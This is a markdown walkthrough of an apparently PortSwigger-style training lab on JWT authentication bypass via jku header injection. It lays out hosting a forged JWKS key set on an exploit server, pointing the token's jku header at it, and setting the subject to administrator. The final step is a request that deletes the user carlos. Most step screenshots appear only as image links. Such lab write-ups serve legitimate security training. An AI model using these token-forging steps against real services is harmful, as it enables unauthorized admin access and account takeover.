










# JWT authentication bypass via jku header injection

## This lab uses a JWT-based mechanism for handling sessions. The server supports the `jku` parameter in the JWT header. However, it fails to check whether the provided URL belongs to a trusted domain before fetching the key.

## To solve the lab, forge a JWT that gives you access to the admin panel at `/admin`, then delete the user `carlos`.

## You can log in to your own account using the following credentials: `wiener:peter`

---

step 1



step 2



step 3



step 4

format for payload

```json
{
"keys": [
{body1},
{body2}
]
}
```



```json
{
  "kty": "RSA",
  "e": "AQAB",
  "kid": "6042f3a7-58b7-49b5-8cd4-57e8f34a89fb",
  "n": "1dEdwHsmAwb4x39cVNqXXmrv2uy4k_YnuYYxX81jbE4C4BBmu_W9OrYUQo_k8p5E_bK7hI4xD3TFYiqqgQewHDYAEaqG0mgP0TshPn6ZiLhynfUrq402iy3GxRP3VbIVC1WF62U_1X_2SW2HKwBZwS5nj_z25FApFpzWI37SBj0t4C9jV7bcq1a8e71Xzfkbe1Sa7kAFMtt5Pf-QK1hXQHqWj10T3-wFRPvTQV7JYzvOoiqk0qWSOgxPwNpTxQMhs5QVwqdErq9EU8d9ikgjuL5vEUHvQXrZch8Ryepdw49uxayInIupmBtu7BOmnwDJLVZj6QGNQ4RkVIltkcSm7Q"
}
```

final payload
look like

```json
{
  "keys": [
    {
      "kty": "RSA",
      "e": "AQAB",
      "kid": "6042f3a7-58b7-49b5-8cd4-57e8f34a89fb",
      "n": "1dEdwHsmAwb4x39cVNqXXmrv2uy4k_YnuYYxX81jbE4C4BBmu_W9OrYUQo_k8p5E_bK7hI4xD3TFYiqqgQewHDYAEaqG0mgP0TshPn6ZiLhynfUrq402iy3GxRP3VbIVC1WF62U_1X_2SW2HKwBZwS5nj_z25FApFpzWI37SBj0t4C9jV7bcq1a8e71Xzfkbe1Sa7kAFMtt5Pf-QK1hXQHqWj10T3-wFRPvTQV7JYzvOoiqk0qWSOgxPwNpTxQMhs5QVwqdErq9EU8d9ikgjuL5vEUHvQXrZch8Ryepdw49uxayInIupmBtu7BOmnwDJLVZj6QGNQ4RkVIltkcSm7Q"
    }
  ]
}
```

step 5
copy final payload to exploit and click on store



step 6

- add in header ` "jku": "https://exploit-0ae000a00424bb2e807db60001ce0021.exploit-server.net/exploit"`
- change payload with `"sub": "administrator"`
- click on sign in, pop will appear don't modify header click ok
- send Get /admin request you will get 200 ok



when you will get 200 ok go to bottom
you will see admin panel and wiener and carlos account delete operation



step 6
send GET /admin/delete?username=carlos request to solve lab




